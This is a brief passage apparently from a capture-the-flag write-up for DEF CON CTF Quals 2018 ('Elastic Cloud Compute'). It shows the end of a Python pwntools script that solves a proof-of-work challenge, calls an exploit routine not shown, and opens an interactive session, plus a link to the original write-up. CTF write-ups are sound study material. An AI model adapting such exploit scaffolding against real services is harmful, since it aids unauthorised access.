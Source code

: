 ```python  
   while True:  
       if check_pow(challenge, n, candidate):  
           return candidate  
       candidate += 1

if __name__ == '__main__':  
   conn = remote(host,port)  
   conn.recvuntil('Challenge: ')  
   challenge = conn.recvuntil('\n')[:-1]  
   conn.recvuntil('n: ')  
   n = int(conn.recvuntil('\n')[:-1])

   print('Solving challenge: "{}", n: {}'.format(challenge, n))

   solution = solve_pow(challenge, n)  
   print('Solution: {} -> {}'.format(solution, pow_hash(challenge, solution)))  
   conn.sendline(str(solution))  
   exploit(conn.sendline)  
   conn.interactive()  
```  

Original writeup
(https://mhackeroni.it/archive/2018/05/20/defconctfquals-2018-all-
writeups.html#elastic-cloud-compute).